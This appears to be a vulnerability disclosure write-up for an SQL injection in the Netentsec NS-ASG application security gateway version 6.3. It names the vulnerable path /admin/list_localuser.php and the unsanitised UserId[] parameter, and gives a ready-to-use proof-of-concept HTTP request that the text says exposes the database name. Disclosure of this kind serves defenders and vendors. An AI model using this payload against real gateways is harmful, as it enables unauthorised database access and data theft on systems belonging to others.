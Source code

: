Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.


official： https://www.netentsec.com/

version:6.3

Vulnerability Path ：/ admin/list_localuser.php




As shown in the figure, in the delete method, the array $ResId variable is accepted, and then $sourdeststr is traversed to be injected into SQL without any restrictions, resulting in SQL injection

<img width="586" alt="图片" src="https://github.com/dtxharry/cve/assets/118646996/84d5037b-5ee2-4bdb-a3f2-4da58d229400">



Login account password, construct POC as follows, successfully verify the existence of SQL injection in the UserId [] parameter, and expose the database name
Poc：
```
GET /admin/list_localuser.php?action=delete&UserId[]=111*&&UserId[]=222 HTTP/1.1
Host: 127.0.0.1
Cookie: PHPSESSID=8f6eb605230a5ac1e25d4bc6478a140d
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
<img width="592" alt="图片" src="https://github.com/dtxharry/cve/assets/118646996/c48b109d-6c3a-4a00-be4c-dbd39f29d81e">
